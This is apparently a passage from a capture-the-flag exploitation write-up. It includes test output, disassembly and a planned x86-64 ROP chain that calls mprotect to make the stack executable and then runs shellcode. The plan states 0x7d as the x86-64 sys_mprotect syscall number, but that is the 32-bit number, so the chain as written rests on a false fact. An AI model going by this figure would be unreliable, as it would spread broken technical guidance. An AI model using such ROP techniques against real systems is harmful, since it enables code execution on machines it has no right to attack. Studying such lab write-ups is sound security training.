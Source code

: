 
Test:
```
root@hlUbuntu64:~/challenges/challenge16# gcc mprotect-test.c && ./a.out
Stack var: 0x7fffffffe480
Stackbase: 0x7fffffffe000
Ret: 0
```

Call to mprotect, via disassembly:
```
0x0000000000400627 <+81>:	mov    rax,QWORD PTR [rbp-0x28]
0x000000000040062b <+85>:	mov    edx,0x7
0x0000000000400630 <+90>:	mov    esi,0x10
0x0000000000400635 <+95>:	mov    rdi,rax
0x0000000000400638 <+98>:	call   0x4004c0 <mprotect@plt>
```

With x86-64 bit function call convention: RDI, RSI, RDX

According to http://syscalls.kernelgrok.com/ sys_mprotect is syscall nr is  0x7d.
x86-64 bit system call convention is: RDI, RSI, RDX (syscall in RAX).


## ROP chain plan

We'll do the following ROP chain:

- pop RAX   // <-- SIP is here
- 0x7d      // sys_mprotect
- pop RDI
- addr      // addr of stack with shellcode
- pop RSI
- 4096      // size of stack
- pop RDX
- 0x7       // stack permissions (RWX)
- syscall
- addr of shellcode


## Find stack addr of shellcode

First, lets find the shellcode address:

```
gdb-peda$ disas readStrInput
Dump of assembler code for function readStrInput:
   0x0000000000400a68 <+0>:	push   rbp
   0x0000000000400a69 <+1>:	mov    rbp,rsp
   0x0000000000400a6c <+4>:	sub    rsp,0xa0
   0x0000000000400a73 <+11>:	mov    DWORD PTR [rbp-0x94],edi
   0x0000000000400a79 <+17>:	mov    DWORD PTR [rbp-0x98],esi
   0x0000000000400a7f <+23>:	lea    rax,[rbp-0x90]
   0x0000000000400a86 <+30>:	mov    esi,0x80
   0x0000000000400a8b <+35>:	mov    rdi,rax
   0x0000000000400a8e <+38>:	call   0x4008d0 <bzero@plt>
   0x0000000000400a93 <+43>:	mov    eax,DWORD PTR [rbp-0x94]
   0x0000000000400a99 <+49>:	mov    esi,0x400ea8
   0x0000000000400a9e <+54>:	mov    edi,eax
   0x0000000000400aa0 <+56>:	mov    eax,0x0
   0x0000000000400aa5 <+61>:	call   0x400860 <dprintf@plt>
   0x0000000000400aaa <+66>:	mov    eax,DWORD PTR [rbp-0x94]
   0x0000000000400ab0 <+72>:	mov    esi,0x400eb8
   0x0000000000400ab5 <+77>:	mov    edi,eax
   0x0000000000400ab7 <+79>:	mov    eax,0x0
   0x0000000000400abc <+84>:	call   0x400860 <dprintf@plt>
   0x0000000000400ac1 <+89>:	mov    rax,QWORD PTR [rip+0x2015f8]        # 0x6020c0 <stdout@@GLIBC_2.2.5>
```